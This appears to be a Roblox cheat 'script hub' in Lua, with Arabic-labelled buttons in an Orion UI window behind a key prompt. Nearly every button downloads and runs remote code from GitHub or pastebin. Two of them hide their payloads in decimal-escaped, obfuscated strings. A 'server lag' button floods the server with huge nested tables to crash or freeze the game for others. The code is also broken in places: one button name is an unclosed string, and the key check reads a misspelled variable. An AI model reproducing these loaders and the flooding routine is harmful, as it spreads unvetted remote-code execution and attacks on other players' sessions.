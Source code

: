 local OrionLib = loadstring(game:HttpGet(('https://raw.githubusercontent.com/shlexware/Orion/main/source')))()
local Window = OrionLib:MakeWindow({Name = "مفتاح سكربت", HidePremium = false, SaveConfig = true, ConfigFolder = "OrionTest" })




function MakesScriptHub()
    local OrionLib = loadstring(game:HttpGet(('https://raw.githubusercontent.com/shlexware/Orion/main/source')))()
local Window = OrionLib:MakeWindow({Name = "سكربت عربي", HidePremium = false, SaveConfig = true, ConfigFolder = "OrionTest"})

local Tab = Window:MakeTab({
	Name = "قائمةالاولى",
	Icon = "rbxassetid://4483345998",
	PremiumOnly = false
})

local Tub = Window:MakeTab({
	Name = "قائمه ثانيه",
	Icon = "rbxassetid://4483345998",
	PremiumOnly = false
})


local Section = Tab:AddSection({
	Name = "Section"
})

local Santa = Tub:AddSection({
	Name = "Santa"
})

Tab:AddButton({
	Name = "طيران",
	Callback = function()
      		print("button pressed")
       --ARCEUS X FLY V2 SCRIPT BY me_ozoneYT
loadstring("\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\40\39\104\116\116\112\115\58\47\47\103\105\115\116\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\109\101\111\122\111\110\101\89\84\47\98\102\48\51\55\100\102\102\57\102\48\97\55\48\48\49\55\51\48\52\100\100\100\54\55\102\100\99\100\51\55\48\47\114\97\119\47\101\49\52\101\55\52\102\52\50\53\98\48\54\48\100\102\53\50\51\51\52\51\99\102\51\48\98\55\56\55\48\55\52\101\98\51\99\53\100\50\47\97\114\99\101\117\115\37\50\53\50\48\120\37\50\53\50\48\102\108\121\37\50\53\50\48\50\37\50\53\50\48\111\98\102\108\117\99\97\116\111\114\39\41\44\116\114\117\101\41\41\40\41\10\10")()

  	end    
})

Tab:AddButton({
	Name = "قتل لاعب gui",
	Callback = function()
      		print("button pressed")
      loadstring(game:HttpGet("https://raw.githubusercontent.com/0Ben1/fe./main/Kidnap%20again"))()

  	end    
})

Tab:AddButton({
	Name = "سبام",
	Callback = function()
      		print("button pressed")
      loadstring(game:HttpGet('https://raw.githubusercontent.com/0Ben1/fe./2520c121ab919b2b9697ab5c70797dcfdaa5db43/Ohio'))()
  	end    
})
Tab:AddButton({
	Name = "لاق سيرفر",
	Callback = function()
      		print("button pressed")
      local char = game:GetService('Players').LocalPlayer.Character or nil
if char then
char.HumanoidRootPart.CFrame = CFrame.new(0,9e9,0)
task.wait(0.5)
char.HumanoidRootPart.Anchored = true
end
while wait(1.5) do --// don't change it's the best
game:GetService("NetworkClient"):SetOutgoingKBPSLimit(math.huge)
local function getmaxvalue(val)
   local mainvalueifonetable = 499999
   if type(val) ~= "number" then
       return nil
   end
   local calculateperfectval = (mainvalueifonetable/(val+2))
   return calculateperfectval
end
 
local function bomb(tableincrease, tries)
local maintable = {}
local spammedtable = {}
 
table.insert(spammedtable, {})
z = spammedtable[1]
 
for i = 1, tableincrease do
    local tableins = {}
    table.insert(z, tableins)
    z = tableins
end
 
local calculatemax = getmaxvalue(tableincrease)
local maximum
 
if calculatemax then
     maximum = calculatemax
     else
     maximum = 999999
end
 
for i = 1, maximum do
     table.insert(maintable, spammedtable)
end
 
for i = 1, tries do
     game.RobloxReplicatedStorage.SetPlayerBlockList:FireServer(maintable)
end

end
 
bomb(289, 5) --// change values if client crashes
end
  	end    
})

Tab:AddButton({
	Name = "ادمن",
	Callback = function()
      		print("button pressed")
      loadstring(game:HttpGet('https://raw.githubusercontent.com/EdgeIY/infiniteyield/master/source'))()
  	end    
})

Tab:AddColorpicker({
	Name = "Colorpicker",
	Default = Color3.fromRGB(255, 0, 0),
	Callback = function(Value)
		print(Value)
	end	  
})

Tab:AddButton({
	Name = "سكربت قائمهثانية",
	Callback = function()
      		print("button pressed")
     loadstring(game:HttpGet(('https://pastebin.com/raw/YCABZfZr'),true))()
  	end    
})

Tab:AddButton({
	Name = "حرق سياره",
	Callback = function()
      		print("button pressed")
      
      local args = {
    [1] = "Fire"
}
game:GetService("ReplicatedStorage").JJ3:FindFirstChild("2NN2Player2NN2sCa2NN2r"):FireServer(unpack(args))
  	end    
})

Tab:AddButton({
	Name = "طيران سياره",
	Callback = function()
      		print("button pressed")
      SGTSOBF_WWwwWWWww={"\108","\111","\97","\100","\115","\116","\114","\105","\110","\103","\40","\103","\97","\109","\101","\58","\72","\116","\116","\112","\71","\101","\116","\40","\40","\39","\92","\49","\48","\52","\92","\49","\49","\54","\92","\49","\49","\54","\92","\49","\49","\50","\92","\49","\49","\53","\92","\53","\56","\92","\52","\55","\92","\52","\55","\92","\49","\49","\50","\92","\57","\55","\92","\49","\49","\53","\92","\49","\49","\54","\92","\49","\48","\49","\92","\57","\56","\92","\49","\48","\53","\92","\49","\49","\48","\92","\52","\54","\92","\57","\57","\92","\49","\49","\49","\92","\49","\48","\57","\92","\52","\55","\92","\49","\49","\52","\92","\57","\55","\92","\49","\49","\57","\92","\52","\55","\92","\53","\52","\92","\53","\49","\92","\56","\52","\92","\52","\56","\92","\49","\48","\50","\92","\49","\48","\55","\92","\54","\54","\92","\49","\48","\57","\92","\49","\48","\39","\41","\44","\116","\114","\117","\101","\41","\41","\40","\41",}SGTSOBF_HHhHHHHHh="";for _,SGTSOBF_dDDDDDDdD in pairs(SGTSOBF_WWwwWWWww)do SGTSOBF_HHhHHHHHh=SGTSOBF_HHhHHHHHh..SGTSOBF_dDDDDDDdD;end;SGTSOBF_CCCcCCcCC=function(SGTSOBF_fFFFFfFfF)loadstring(SGTSOBF_fFFFFfFfF)()end;SGTSOBF_CCCcCCcCC(SGTSOBF_HHhHHHHHh)
  	end    
})
Tab:AddButton({
	Name = "كيبورد",
	Callback = function()
      		print("button pressed")
      loadstring(game:HttpGet("https://raw.githubusercontent.com/advxzivhsjjdhxhsidifvsh/mobkeyboard/main/main.txt", true))()
  	end    
})

Tab:AddButton({
	Name = "ادمن",
	Callback = function()
      		print("button pressed")
      loadstring(game:HttpGet('https://raw.githubusercontent.com/shlexware/DomainX/main/source',true))()
  	end    
})

Tub:AddButton({
	Name = "Arceusx",
	Callback = function()
      		print("button pressed")
      loadstring(game:HttpGet("https://raw.githubusercontent.com/AZYsGithub/chillz-workshop/main/Arceus%20X%20V3"))()
      
  	end    
})

Tub:AddButton({
 Name = "سكربت عربي",
  Callback = function()
        print("botton pressed")
    loadstring(game:HttpGet(('https://raw.githubusercontent.com/lege-cy-hi/mikey002/main/Mikey002'),true))()        
 end
})


Tub:AddButton({
 Name = "ماب بيوت",
  Callback = function()
        print("botton pressed")
     loadstring(game:HttpGet("https://raw.githubusercontent.com/IceMael7/NewIceHub/main/Brookhaven"))()
 end
 
})

Tub:AddButton({
Name = "لوحه جديده 
Callback = function()
print("button pressed")
loadstring(game:HttpGet(('https://pastebin.com/raw/Sn0ZuDGj'),true))()
  end

 })
end

function CorrectkeyNotification()
OrionLib:MakeNotification({
    Name = "Correct key!",
    Content = "You have entered the correct key!",
    Image = "rbxassetid://4483345998",
    Time = 5
})
end

function InCorrectkeyNotification()
OrionLib:MakeNotification({
    Name = "InCorrect key!",
    Content = "You have entered the Incorrect key!",
    Image = "rbxassetid://4483345998",
    Time = 5
})
end

local Tab = Window:MakeTab({
    Name = "key",
    Icon = "rbxassetid://4483345998",
    PremiumOnly = false
})

Tab:AddTextbox({
    Name = "enter key",
    Default = "enter key",
    TextDisappear = true,
    Callback = function(Value)
        _G.keInput = Value
        
    end      
})

Tab:AddButton({
    Name = "Check key",
    Callback = function()
              if _G.keylnput == _G.key then
      MakesScriptHub()
      CorrectkeyNotification()
      else
        InCorrectkeyNotification()
          end
      end    
})
